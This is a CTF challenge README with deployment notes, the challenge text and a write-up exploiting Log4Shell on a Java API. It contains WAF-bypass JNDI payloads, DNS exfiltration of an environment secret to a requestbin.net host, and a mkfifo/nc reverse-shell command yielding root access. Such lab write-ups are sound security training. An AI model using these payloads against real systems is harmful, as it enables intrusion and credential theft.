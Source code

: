 # ECW - Challenge Web AMOSSYS

## Déploiement

Deploiment using docker:

```
cd <dossier du challenge avec le Dockerfile>
sudo docker build . -t ecw-amossys-web
sudo docker run -p 80:8080 ecw-amossys-web
```

Pay attention that flag is in `/flag.txt`. If you change the name of the file, change it also in the `MainController.java` file, in the `admin` function.

Also, don't change the `ENV ACCESS_KEY="LE_CONTEXTE_EST_INTERESSANT"` in `Dockerfile`, or you should also change the corresponding code `apikey.equals(System.getenv("ACCESS_KEY"))` in `MainController.java`.

## Context / text for challengers

### Fr news

Vous êtes mandatés par la société Smart Transport & Logistics pour tester la dernière API de leur service Web.
L'un de ces points d'API permet d'obtenir le code d'accès à un entrepôt. Ces derniers temps plusieurs vols ont eu lieu dans cet entrepôt.

Découvrez la méthode employée et obtenez vous aussi le code d'accès à l'entrepot (le flag).

URL de l'API: <à compléter>

Note: Il n'est pas nécessaire d'exploiter une exécution de commande pour obtenir le flag.

### En news

You are mandated by Smart Transport & Logistics to test the latest API for their web service.
One of these API points is used to obtain the access code to a storage facility. Recently, several thefts have occurred in this storage facility.

Discover the method used and get the access code to the warehouse (the flag).

URL of the API: <to complete>

Note: It is not necessary to have remote command execution to get the flag.

## Challenge Write-up

### Discovery of API endpoint

The root of the webservice lead to a `Whitelabel` error :

![Whitelabel error](images/whitelabel_error.png "Whitelabel error")

Then, we perfom directories and files enumeration with `dirsearch`:
```bash
$ python3 ~/tools/dirsearch/dirsearch.py -u http://127.0.0.1/

  _|. _ _  _  _  _ _|_    v0.4.2.1                                                           
 (_||| _) (/_(_|| (_| )                                                                      
                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11305

Output File: /home/kali/tools/dirsearch/reports/127.0.0.1/-_22-06-17_14-10-47.txt

Log File: /home/kali/tools/dirsearch/logs/last_scan.log

Target: http://127.0.0.1/

[14:10:47] Starting:                                                                         
[14:10:58] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[14:10:59] 400 -  435B  - /a%5c.aspx                                        
[14:11:09] 200 -   24B  - /api/                                             
[14:11:09] 200 -    2KB - /api/swagger.json                                 
[14:11:19] 500 -   73B  - /error                                            
[14:11:19] 500 -   73B  - /error/                                           
                                                                             
Task Completed
```

We discovered the API path and a swagger file describing the endpoints:
- /api/facility : return the acccess code to storage facility, this is what we want to solve the challenge, but according to swagger file, endpoint is protected with a API key. We still learn that the password is stored in `ACCESS_KEY` environnment variable and should be provide in `X-API-Key` header;
- /api/check : check identity based on surname et name.

### Identify the vulnerability

We test to send correct data to /api/check endpoint :
```bash
$ curl 127.0.0.1:80/api/check -X POST --data "prenom=test&nom=test"
Your are not wanted by Interpol, but just in case we will Log your identity
```

They **Log** the user input, let's try Log4Shell!

To detect Log4Shell, we use the dns URI and the site https://requestbin.net/ to log DNS request.

```bash
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${jndi:dns://detect.8t10tjgitagq8j87.b.requestbin.net}&nom=test'
Attack detected!
```

A sort of WAF or filtering is blocking our request, we can bypass it : `curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:d${lower:n}s${env:XXXXUXXX:-:}//detect.8t10tjgitagq8j87.b.requestbin.net}&nom=test'`

Our DNS endpoint give us a respond:

![DNS request](images/detect_log4shell.png "DNS request on requestbin.net")

### Exploit Log4Shell - Method 1

This first method does not require the usage of LDAP URI, so the challengers wont need to expose a LDAP and Web server to exploit it. Only a DNS endpoint, like for the detection part, is needed. DNS protocol should be allow in output for the app.

We use DNS URI and `${env:ENV_VAR}` to exfiltrate environnement variable `ACCESS_KEY` like describe in `swagger.json`, then reuse the obtained password in base 64 in `X-API-key` to obtain the flag!

```bash
# DNS endpoint receive the value of the environnement variable ACCESS_KEY
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:d${lower:n}s${env:XXXXUXXX:-:}//${env:ACCESS_KEY}.8t10tjgitagq8j87.b.requestbin.net}&nom=test'
# check result : https://requestbin.net/bins/view/06c4ec51bf8e56cac83dbddb664452e606c5b3ac
# We reuse the access key encoded in base 64 to obtain the password:
$ curl 127.0.0.1:80/api/facility -H 'X-API-Key: TEVfQ09OVEVYVEVfRVNUX0lOVEVSRVNTQU5U'
Here is you flight number, enjoy your trip : ECW{Il_000_faudra_changer_ce_flag}
```

### Exploit Log4Shell - Method 2

This second method is a using the Log4Shell vulnerability to obtain remote command execution on the system. Prerequire for this 2nd method is to expose at least 3 ports witch the vulnerable application can reach:
- TCP/1389 : port used by the JNDI-Exploit-kit to expose the ldap server
- TCP/8180 : port used by the JNDI-Exploit-kit to expose the web server
- TCP/xxxx : any port for the reverse connection

Use https://github.com/pimps/JNDI-Exploit-Kit to exploit

```bash
# dl exploit
$ git clone https://github.com/pimps/JNDI-Exploit-Kit.git
# Start JNDI-Exploiy-Kit to have a server and getting return from app (dumy command for test)
$ java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C 'id > /tmp/was_here'
# test
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/a}&nom=test'
# getting Java version
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/${java:version}}&nom=test'
# result in the JNDI-Exploit-Kit server :
2022-06-21 13:54:06 [LDAPSERVER] >> Reference that matches the name(Java version 1.8.0_181) is not found.
```

We want code execution but the JNDI-Exploit-Kit is using `/bin/bash` binary, but the vulnerable appplication use only `/bin/sh`. So we need to modify the exploit to make the `-C` option working:
```java
//Transformers.java, ligne 125
        	mv.visitLdcInsn("/bin/bash"); // /bin/bash -> /bin/sh
```

Then recompile the exploit:
```bash
# Install maven before
sudo apt -y install maven
# compile
cd JNDI-Injection-Exploit
mvn clean package -DskipTests
```

Finaly exploit the app to execute command on system:
```bash
# Setup listener
$ nc -lnvp 9001             
listening on [any] 9001 ...
# Start JNDI-Exploit-Kit to exec a reverse shell
$ cd JNDI-Exploit-Kit
$ java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.0.1 9001 >/tmp/f'
```

Find the JNDI link macthing our correct JDK version (here 1.8):

![JNDI-Exploit-kit execution](images/start_jndi_exploit.png "JNDI-Exploit-kit execution")

```bash
# Send payload to app according (modif)
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/sxlrgt}&nom=test'
# From the reverse shell terminal : 
listening on [any] 9001 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43749
/bin/sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # ls
app
bin
dev
etc
flag.txt
...
/ # cat flag.txt
ECW{Il_000_faudra_changer_ce_flag}
```
